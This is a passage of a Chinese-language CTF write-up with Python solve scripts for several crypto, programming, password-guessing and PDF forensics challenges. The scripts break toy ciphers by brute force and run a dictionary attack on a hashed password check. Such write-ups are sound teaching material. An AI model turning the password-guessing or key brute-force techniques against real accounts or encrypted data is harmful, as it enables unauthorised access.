加密是单字节逐个进行加密的，并且`hex(9487)=0x250f`，等价于：

```python
def layer3(data):
    output = []
    key = number.bytes_to_long(os.urandom(128))&0xff

    for i in data:
        key = (key * 0x63 + 0xf) % 0x100
        output.append((i ^ key) & 0xff)
    return bytes(output)
```

`key`的变化范围缩小到`0-0xff`。`en2=layer2(en1);en3=layer3(en2)`。在已知`en3`的情况下，知道`en1`的部分字符，可以通过穷尽`key`来还原`en1`：

```python
def layer2_3_dec(data):
    d=invert(17,251)
    for key in range(0x100):
        output = []
        for i in data:
            key=(key*0x63+0xf)&0xff
            output.append((i^key)*d%251)
        output=bytes(output)
        if output[4:5]==b'{' and output[-2:]==b'}\n':
            return output
```

layer4：

```python
def layer4(data):
    iv = os.urandom(256)
    output = iv

    hexencoded = binascii.hexlify(data)
    length_target = (len(hexencoded) + 3) // 4
    padded = hexencoded.ljust(length_target * 4, b'f')

    for i in range(0, len(padded), 4):
        r = rsa_encrypt(padded[i:i+4])
        block = binascii.unhexlify('%.512x' % r)
        output += xor(output[-256:], block)

    return base64.b64encode(output)
```

`padded`是十六进制表示，那么`padded[i:i+4]`的取值范围为`0-0xffff`。造表：

```python
padded_dict={}
for i in range(0x10000):
    r = rsa_encrypt(('%.4x' % i).encode())
    block = binascii.unhexlify('%.512x' % r)
    padded_dict[block] = ('%.4x' % i).encode()
```

layer4 解密算法：

```python
def layer4_dec(data):
    padded_dict={}
    for i in range(0x10000):
        r = rsa_encrypt(('%.4x' % i).encode())
        block = binascii.unhexlify('%.512x' % r)
        padded_dict[block] = ('%.4x' % i).encode() 
    data=base64.b64decode(data)
    blocks=xor(data[:-256],data[256:])
    padded=b""
    for i in range(0,len(blocks),256):
        padded=padded+padded_dict[blocks[i:i+256]]
    return binascii.unhexlify(padded)
```

layer2, layer3, layer4 解密代码为：

```python
import re
import json
import base64
import string
import binascii
import collections
from gmpy2 import *
from Crypto.Util import number

patt1_rsa=re.compile(b"RSA\(n=(.*), e=(.*)\)")
patt2_dic=re.compile(b"Counter\((.*?)\)")

f=open("encrypted","rb")
line1=f.readline()
line2=f.readline()
line3=f.readline()
line4=f.readline()

n,e=patt1_rsa.findall(line1)[0]
n=int(n,16)
e=int(e,16)

raw=patt2_dic.findall(line3)[0].replace(b'\'',b'\"')
counter=json.loads(raw)

flag_length=0
for char,value in counter.items():
    flag_length=flag_length+value

def rsa_encrypt(x):
    v = number.bytes_to_long(x)
    return pow(v, e, n)

def xor(a, b):
    return bytes(i ^ j for i, j in zip(a, b))
    
def layer2_3_dec(data):
    d=invert(17,251)
    for key in range(0x100):
        output = []
        for i in data:
            key=(key*0x63+0xf)&0xff
            output.append((i^key)*d%251)
        output=bytes(output)
        if output[4:5]==b'{' and output[-2:]==b'}\n':
            return output
            
def layer4_dec(data):
    padded_dict={}
    for i in range(0x10000):
        r = rsa_encrypt(('%.4x' % i).encode())
        block = binascii.unhexlify('%.512x' % r)
        padded_dict[block] = ('%.4x' % i).encode() 
    data=base64.b64decode(data)
    blocks=xor(data[:-256],data[256:])
    padded=b""
    for i in range(0,len(blocks),256):
        padded=padded+padded_dict[blocks[i:i+256]]
    return binascii.unhexlify(padded)

data=layer4_dec(line4)[:flag_length]
data=layer2_3_dec(data)
print(data)
```

解密得到`enc1`：`SKIT{I VMWPQ ALBCD SBY JMONE BXZL UGZ KIFR HBT WD UGZ PKBMHR HIR CWUGBMU LIWD.}\n`。

layer1 是单表替换密码，使用在线工具`https://www.quipqiup.com/`解密。

#### 96 Crypto    slowcipher

##### ##python-magic

```
python-magic is a Python interface to the libmagic file type identification library. libmagic identifies file types by checking their headers according to a predefined list of file types. This functionality is exposed to the command line by the Unix command file.
```

write up：

`cipher`代码分为两部分：

```c
  v7 = 0xDEADBEEF01234567LL;
  do
  {
    v8 = *password;
    v7 = ((((0x309 * v8) ^ (0xD05 * ((0x777777 * v7 + 0x3039) & 0x7FFFFFFFFFFFFFFFuLL))) >> 13) ^ (0x309 * v8) ^ (0xD05 * ((0x777777 * v7 + 0x3039) & 0x7FFFFFFFFFFFFFFFLL)))
       + 0x5555555555555555LL;
    if ( *password )
    {
      v9 = 0LL;
      do
      {
        v7 = (0x777777 * v7 + 0x3039) & 0x7FFFFFFFFFFFFFFFLL;
        ++v9;
      }
      while ( v9 != v8 );
    }
    v10 = 66LL;
    do
    {
      v7 = (0x777777 * v7 + 0x3039) & 0x7FFFFFFFFFFFFFFFLL;
      --v10;
    }
    while ( v10 );
    ++password;
  }
  while ( v8 );
```

```c
  v11 = 7LL;
  while ( 1 )
  {
    result = fgetc(fp);
    v16 = result;
    if ( result == -1 )
      break;
    v12 = result;
    if ( v11 )
    {
      for ( i = 0LL; i != v11; ++i )
        v7 = (0x777777 * v7 + 0x3039) & 0x7FFFFFFFFFFFFFFFLL;
    }
    if ( mode )
    {
      v11 = (0x15 * v11 / 0xA) ^ v16;
      v14 = v7 ^ v16;
      if ( mode == 1 )
        v12 = v14;
    }
    else
    {
      v12 = v7 ^ v16;
      v11 = (21 * v11 / 0xA) ^ (v7 ^ v16);
    }
    fputc(v12, op);
    fflush(op);
  }
```

第一部分通过计算`password`生成`v7`；第二部分从`fp`中读入字节，加密后写入`op`。第二部分每次只加密一个字节，`v7`只参与`*`、`^`运算，所以`v7`的变化量只有`0x100`。对于`flag.enc`，可以通过穷尽`v7`计算出`flag`。

```python
import struct
import magic

def cipher(_input,password,mode):
    _output=b""
    rnumb=7
    for each in _input:
        for i in range(rnumb&0xff):
            password=(password*0x77+0x39)&0xff
        _output=_output+struct.pack(">B",each^password)
        if mode==1:
            rnumb=((0x15*rnumb&0xffffffffffffffff)//10)^each
        else:
            rnumb=((0x15*rnumb&0xffffffffffffffff)//10)^each^password
    return _output

f=open("flag.enc","rb")
content=f.read()
f.close()
m = magic.Magic(mime=True)
for password in range(0x100):
    result=cipher(content,password,0)
    mime = m.from_buffer(result)
    if mime != 'application/octet-stream':
        print(password,mime)
        f=open("result-%d"%password,"wb")
        f.write(result)
        f.close()
```

#### 97 Crypto    ffa

write up：

加密代码：

```python
#!/usr/bin/env python3
import sympy
import json

m = sympy.randprime(2**257, 2**258)
M = sympy.randprime(2**257, 2**258)
a, b, c = [(sympy.randprime(2**256, 2**257) % m) for _ in range(3)]

x = (a + b * 3) % m
y = (b - c * 5) % m
z = (a + c * 8) % m

flag = int(open('flag', 'rb').read().strip().hex(), 16)
p = pow(flag, a, M)
q = pow(flag, b, M)

json.dump({ key: globals()[key] for key in "Mmxyzpq" }, open('crypted', 'w'))
```

通过`xyz`与`abc`的关系：

```python
x = (a + b * 3) % m
y = (b - c * 5) % m
z = (a + c * 8) % m
```

可以得到：

```python
x - 3y - z = 7c % m
y + 5c     = b  % m
z - 8c     = a  % m
```

解密代码：

```python
import json
import binascii
from gmpy2 import *

cry=json.load(open('crypted', 'r'))
M=cry['M']
m=cry['m']
x=cry['x']
y=cry['y']
z=cry['z']
p=cry['p']
q=cry['q']


d=invert(7,m)
c=((x-3*y-z)*d)%m
b=(y+5*c)%m
a=(z-8*c)%m


a_inv=invert(a,M-1)
b_inv=invert(b,M-1)

flag1=pow(p,a_inv,M)
flag1=digits(flag1,16)
print(binascii.unhexlify(flag1))

flag2=pow(q,b_inv,M)
flag2=digits(flag2,16)
print(binascii.unhexlify(flag2))
```

#### 98 Programming    fast

```python
import re
from pwn import *

patt1=re.compile(b"(-?\d*) ([\+\*-/]) (-?\d*) = \?\n")
#context.log_level="debug"
#p=process("./fast")
p=remote("ctf.hackme.quest",7707)
p.recvuntil(b"game.\n")
p.sendline(b"Yes I know")
results=[]
for k in range(10000):
    a=p.recvuntil(b"?\n")
    patt1.findall(a)
    num1,operation,num2=patt1.findall(a)[0]
    num1=int(num1)
    num2=int(num2)
    num3=0
    if operation==b"+":
        num3=num1+num2
    if operation==b"-":
        num3=num1-num2
    if operation==b"*":
        num3=num1*num2
    if operation==b"/":
        num3=int(num1/num2)
    num3=num3&0xffffffff
    if num3>0x7fffffff:
        num3=num3-0x100000000
    results.append(str(num3))

for each in results:
    p.sendline(each.encode())
print(p.recv())
p.close()
```

#### 99 Lucky    you-guess

爆破字典，猜口令。根据`'%s really hates her ex.' % password`，选择一个女性用户名的字典。

```python
import hashlib
import sys

def sha512(s):
    return hashlib.sha512(s.encode()).hexdigest()

def verify(password):
    h = sha512('your hash is ' + sha512(password) + ' but password is not password')

    if h == '2a9b881b84d4386e39518c8802cc8167ec84d37118efd3949dbedd5e73bf74b62d80bf1531b7505a197565660bf452b2641cd5cd12f0c99c502a4d72c28197f2':
        key = bytes.fromhex(sha512('%s really hates her ex.' % password))
        encrypted = bytes.fromhex('20a6b2b83f1731a5bafdc19b4c954cd34419412951e85de45fb904fc5c1a9470eda8d58483e1fb66e3e13f656e0677f75fccb6ff0577e42b5c53620d10178c0f')
        flag = bytearray(i ^ j for i, j in zip(bytearray(key), bytearray(encrypted)))
        print(flag.decode().strip(',.~'))
        return 1
    else:
        #print('Hmmmmm?!')
        return 0
        
#http://aciddr0p.net/pwls.html
#download female-names.txt from http://antirez.com/misc/female-names.txt
f=open("female-names.txt","r")
while True:
    password=f.readline().strip('\n')
    if password=="":
        break
    if verify(password)==1:
        print(password)
        break
f.close()
```

#### 100 Forensic    easy pdf

提取`pdf`的文字内容：

```python
import pypdf

reader = pypdf.PdfReader('easy.pdf')
for page in reader.pages:
    print(page.extract_text())
```

#### 101 Forensic    this is a pen

在`pdf`的文字内容里并没有找到`flag`，尝试提取图片：

```python
import pypdf

i=0
reader = pypdf.PdfReader('this-is-a-pen.pdf')
for page in reader.pages:
    for image_file_object in page.images:
        f=open(str(i) + image_file_object.name, "wb")
        f.write(image_file_object.data)
        f.close()
        i=i+1
```
